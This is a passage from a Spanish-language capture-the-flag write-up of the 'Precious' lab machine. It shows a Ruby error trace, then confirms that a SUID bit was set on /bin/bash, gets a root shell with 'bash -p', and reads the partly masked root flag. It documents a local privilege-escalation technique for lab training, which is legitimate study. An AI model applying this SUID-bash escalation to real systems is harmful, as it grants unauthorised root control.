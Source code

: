```bash
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```
---
Verificamos que el permiso SUID ha sido añadido al binario `/bin/bash`:

```bash
henry@precious:~$ ls -l /bin/bash
_______________________________________________________________________
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
---
Iniciamos una nueva instancia de bash con privilegios elevados, logrando convertirnos en el usuario root.

```bash
henry@precious:~$ bash -p
_______________________________________________________________________
bash-5.1# whoami
root
```
---
Por ultimo, leemos la flag de `root`.

```bash
bash-5.1# cat /root/root.txt 
_______________________________________________________________________
838cff93dc9fff******************
```